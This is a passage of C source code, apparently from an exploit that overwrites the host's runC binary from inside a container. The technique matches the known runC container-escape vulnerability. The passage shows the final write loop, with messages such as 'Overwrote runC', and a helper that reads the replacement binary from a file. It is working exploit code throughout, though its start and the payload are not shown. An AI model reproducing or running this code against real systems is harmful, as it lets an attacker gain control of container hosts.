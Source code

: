                 }
                printf("\t-> Overwrote runC\n");
                opened = TRUE;
            }
        }

        /* Clean ups & return */
        close(runc_fd_write);
        free(new_runc.buff);
        if (opened == FALSE)
        {
            printf("\t[!] Reached timeout, couldn't write to runc at %s\n", runc_fd_path);
            fflush(stdout);
            return RET_ERR;
        }
        else
        {
            printf("\t-> Success, shuting down ...\n");
            fflush(stdout);
        }
        return RET_OK;
    }

    /*
    *
    * Reads from the file at new_runc_path, returns a Buffer with new_runc's content.
    *
    */
    Buffer read_new_runc(char * new_runc_path)
    {
        Buffer new_runc = {0, NULL};
        FILE *fp_new_runc;
        int file_size, rc;
        void * new_runc_content;
        char ch;

        // open new_Runc
        fp_new_runc = fopen(new_runc_path, "r"); // read mode
        if (fp_new_runc == NULL)
        {
          printf("[!] open file err while opening the new runc file %s\n", new_runc_path);
          return new_runc;
        }

        // Get file size and prepare buff
        fseek(fp_new_runc, 0L, SEEK_END);
        file_size = ftell(fp_new_runc);
        new_runc_content = malloc(file_size);
        rewind(fp_new_runc);

        rc = fread(new_runc_content, 1, file_size, fp_new_runc);
        if (rc != file_size)
        {
            printf("[!] Couldn't read from new runc file at %s\n", new_runc_path);
            free(new_runc_content);
            return new_runc;
        }

